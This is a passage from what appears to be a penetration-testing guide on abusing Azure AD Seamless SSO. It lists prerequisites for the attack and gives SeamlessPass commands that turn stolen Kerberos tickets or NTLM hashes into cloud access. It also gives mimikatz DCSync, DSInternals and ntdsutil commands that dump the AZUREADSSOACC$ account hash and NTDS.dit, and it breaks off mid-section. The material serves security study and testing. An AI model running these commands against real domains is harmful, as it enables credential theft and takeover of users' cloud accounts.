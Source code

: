 In order to obtain that TGS ticket, the attacker needs to have one of the following:
- **A compromised user's TGS:** If you compromise a user's session with the ticket to `HTTP/autologon.microsoftazuread-sso.com` in memory, you can use it to access the cloud resources.
- **A compromised user's TGT:** Even if you don't have one but the user was compromised, you can get one using fake TGT delegation trick implemented in many tools such as [Kekeo](https://x.com/gentilkiwi/status/998219775485661184) and [Rubeus](https://posts.specterops.io/rubeus-now-with-more-kekeo-6f57d91079b9).
- **A compromised user’s hash or password:** SeamlessPass will communicate with the domain controller with this information to generate the TGT and then the TGS.
- **A golden ticket:** If you have the KRBTGT key, you can create the TGT you need for the attacked user.
- **The AZUREADSSOACC$ account hash or password:** With this info and the user’s Security Identifier (SID) to attack it's possible to create a service ticket an authenticate with the cloud (as performed in the previous method).

### [**SeamlessPass**](https://github.com/Malcrove/SeamlessPass)

As [explained in this blog post](https://malcrove.com/seamlesspass-leveraging-kerberos-tickets-to-access-the-cloud/), having any of the previous requirements it's very easy to just use the tool **SeamlessPass** to access the cloud resources as the compromise user, or as any user if you have the **`AZUREADSSOACC$`** account hash or password.

Finally, with the TGT it's possible to use the tool [**SeamlessPass**](https://github.com/Malcrove/SeamlessPass) with:

```bash
# Using the TGT to access the cloud
seamlesspass -tenant corp.com -domain corp.local -dc dc.corp.local -tgt <base64_encoded_TGT>
# Using the TGS to access the cloud
seamlesspass -tenant corp.com -tgs user_tgs.ccache
# Using the victims account hash or password to access the cloud
seamlesspass -tenant corp.com -domain corp.local -dc dc.corp.local -username user -ntlm DEADBEEFDEADBEEFDEADBEEFDEADBEEF
seamlesspass -tenant corp.com -domain corp.local -dc 10.0.1.2 -username user -password password
# Using the AZUREADSSOACC$ account hash (ntlm or aes) to access the cloud with a specific user SID and domain SID
seamlesspass -tenant corp.com -adssoacc-ntlm DEADBEEFDEADBEEFDEADBEEFDEADBEEF -user-sid S-1-5-21-1234567890-1234567890-1234567890-1234
seamlesspass -tenant corp.com -adssoacc-aes DEADBEEFDEADBEEFDEADBEEFDEADBEEF -domain-sid S-1-5-21-1234567890-1234567890-1234567890 -user-rid 1234
wmic useraccount get name,sid # Get the user SIDs
```

Further information to set Firefox to work with seamless SSO can be [**found in this blog post**](https://malcrove.com/seamlesspass-leveraging-kerberos-tickets-to-access-the-cloud/).

### Getting hashes of the AZUREADSSOACC$ account

The **password** of the user **`AZUREADSSOACC$` never changes**. Therefore, a domain admin could compromise the **hash of this account**, and then use it to **create silver tickets** to connect to Azure with **any on-prem user synced**:

```bash
# Dump hash using mimikatz
Invoke-Mimikatz -Command '"lsadump::dcsync /user:domain\azureadssoacc$ /domain:domain.local /dc:dc.domain.local"'
mimikatz.exe "lsadump::dcsync /user:AZUREADSSOACC$" exit

# Dump hash using https://github.com/MichaelGrafnetter/DSInternals
Get-ADReplAccount -SamAccountName 'AZUREADSSOACC$' -Domain contoso -Server lon-dc1.contoso.local

# Dump using ntdsutil and DSInternals
## Dump NTDS.dit
ntdsutil "ac i ntds" "ifm” "create full C:\temp" q q
## Extract password
```